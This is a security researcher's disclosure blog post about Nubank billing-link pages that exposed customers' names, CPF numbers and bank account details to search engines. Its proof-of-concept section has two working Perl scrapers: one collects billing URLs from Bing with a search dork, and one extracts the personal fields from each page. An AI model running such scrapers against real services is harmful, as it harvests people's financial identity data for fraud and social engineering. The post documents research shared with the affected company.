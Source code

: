 ```yaml
---
layout: content
title: 'A little case about scraping personal data exposure in the web'
description: 'Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.'
og_image: https://heitorgouvea.me/images/publications/research/nubank/google-dorks.png
---
```


### Summary

Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.

---

### Disclaimer

The responsible company was informed about all details contained in this publication in the shortest possible time and it positioned itself in an ethical and transparent manner, demonstrating due attention and commitment. During all tests, no system was invaded or breached, in addition, the company performed all necessary actions/modifications to minimize any undue action that explores the context covered in this publication.

---

### Description

Within the Nubank mobile application, there is a feature called "Charge", this feature comes down to you filling in a value of your desire (if you want) and clicking confirm:

![](/images/publications/research/nubank/creating-a-link.png)

After that, a QR Code is generated and you have the option to share it or send the bill through another application, such as WhatsApp:

![](/images/publications/research/nubank/whatsapp-shared-link.png)

When I came across this link (the content of the QR Code is also the link), I decided to open it in the browser to take a look and this was the result:

![](/images/publications/research/nubank/personal-infos.png)

I came across my full name, CPF, my bank account number and branch exposed without any kind of control, the only requirement to get my information through Nubank was to have such a URL.

Such URL is generated exclusively by the client in your application and it is also up to the client to define how and with whom to share each generated URL.

Convinced to assess whether this was really possible, I decided to create a * dork * to try to find more of these URLs, this time exposed on the Internet and this was the result:

![](/images/publications/research/nubank/google-dorks.png)

Surprised by the fact that Nubank allowed Google and other search engines to index these pages, I decided to validate that such URLs were being published on other channels, and the first channel I decided to validate was Twitter:

![](/images/publications/research/nubank/twitter-links.png)

And these are just some of the results, on Twitter you could see that some people use this functionality to receive donations and others use it in very general ways...

---

### Proof of Concept

Convinced to demonstrate an impact of the abuse of this functionality, I decided to create a proof of concept. The first part of this PoC boiled down to building code that would be able to use a search engine to collect as many URLs as possible, so I did a simple *scraper* for Bing:

```perl
#!/usr/bin/env perl

use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw( url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        my $mech = WWW::Mechanize -> new();
        my %seen = ();
        my @urls = ();

        $dork = url_escape($dork);

        for (my $page = 0; $page <= 10; $page++) {
            my $url = "http://www.bing.com/search?q=" . $dork . "&first=" . $page . "0";
            $mech -> get($url);
            my @links = $mech -> links();
                        
            foreach my $link (@links) {
                $url = $link -> url();
                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

main();
exit;
```

From that code, I was able to collect 100 valid URLs:

![](/images/publications/research/nubank/file-with-the-urls.png)

After having all these URLs in a .txt, I had to build another *scraper* that scraped data on the Nubank page:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use Mojo::DOM;
use LWP::UserAgent;

sub main {
    my $urls = $ARGV[0];

    if ($urls) {
        open (my $endpoints, "<", $urls); 

        while (<$endpoints>) {
            chomp ($_);

            my $userAgent = LWP::UserAgent -> new();
            my $request   = $userAgent -> get($_);
            my $response  = $request -> content();

            if ($response) {
                my $dom = Mojo::DOM -> new();
                $dom -> parse($response);

                my $account = $dom -> find("tr td") -> map("text") -> join(","); 

                $account =~ s/Nome,// && 
                $account =~ s/CPF,// &&
                $account =~ s/Banco,// &&
                $account =~ s/Tipo da conta,// &&
                $account =~ s/Agência,// &&
                $account =~ s/Conta,// &&
                $account =~ s/Agência Métodos,//;
                
                say $account;
            }        
        }

        close ($endpoints);
    }
}

main();
exit;
```

And this was the result:

![](/images/publications/research/nubank/collect-with-names-cpfs.png)

CPF, Full name, account number and branch of more than 100 people, in just a few minutes and a few lines of code.

---

### Impact

The possibility of an attacker abusing this functionality available within Nubank systems is relatively high, as it can expose a huge amount of users, leaking some sensitive information as illustrated above, in addition an attacker who has such information at hand, can use it to strengthen/create a social engineering approach.

---

### Conclusion

Through this analysis it is possible to affirm that a convinced person could implement several *scrapers* in order to map Nubank billing URLs and later collect personal information present in them. This article had PoC as one of those implementations, using a search engine, but there is still room for other channels, such as social networks (Twitter, Facebook and others). What could be used to take these people to exposure or risk scenarios, such as being victims of *spear phishing*/social engineering.

---

### References

[**https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)

[**https://en.wikipedia.org/wiki/Google_hacking**](https://en.wikipedia.org/wiki/Google_hacking)

[**https://en.wikipedia.org/wiki/Web_scraping**](https://en.wikipedia.org/wiki/Web_scraping)